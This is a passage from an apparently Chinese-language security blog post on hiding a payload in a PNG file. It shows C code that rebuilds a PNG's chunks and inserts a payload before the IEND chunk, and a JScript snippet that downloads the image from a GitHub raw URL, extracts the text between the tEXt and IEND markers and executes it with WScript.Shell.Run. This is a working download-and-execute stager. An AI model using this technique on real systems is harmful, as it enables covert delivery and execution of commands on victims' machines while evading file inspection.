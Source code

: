 ```
		{
			printf("Ancillary Chunk\n");
			fseek(fpnew,-4,SEEK_CUR);
			j=1;
		}
		printf("   ChunkOffset:0x%08x	\n",ChunkOffset);
		printf("   ChunkLen: %10d		\n",ChunkLen);
		crc32=GetCrc32(buf,ChunkLen+4);
		printf("   ExpectCRC32:%08X\n",crc32);
		fread(buf,4,1,fp);
		ChunkCRC32=(buf[0]<<24)|(buf[1]<<16)|(buf[2]<<8)|buf[3];
		printf("   ChunkCRC32: %08X		",ChunkCRC32);
		if(crc32!=ChunkCRC32)
			printf("[!]CRC32Check Error!\n");
		else
		{
			printf("Check Success!\n\n");
			if(j==0)
				fwrite(buf,4,1,fpnew);
		}
		ChunkLen=ftell(fp);
		if(ChunkLen==(len-12))
		{
			printf("\n----------------------------------------------------\n");
			printf("Total Chunk:%d\n",i);		
			break;
		}
	}
	AddPayload(fpnew);
	fwrite(IEND,12,1,fpnew);
	fclose(fp);
	fclose(fpnew);
	return 0;	
}
```

使用check.cpp对其进行校验，如图，校验成功

![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-7-15/2-12.PNG)




## 0x07 读取payload并执行
---
将添加payload的图片上传至github，在客户端实现读取图片解析payload并执行：

### 1、javascript

```
h = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.SetTimeouts(0, 0, 0, 0);
h.Open("GET","https://raw.githubusercontent.com/3gstudent/PNG-Steganography/master//new.png",false);
h.Send();
Data = h.ResponseText;
x=Data.indexOf("tEXt");
y=Data.indexOf("IEND");
str=Data.substring(x+4,y-8);
new ActiveXObject("WScript.Shell").Run(str); 
```
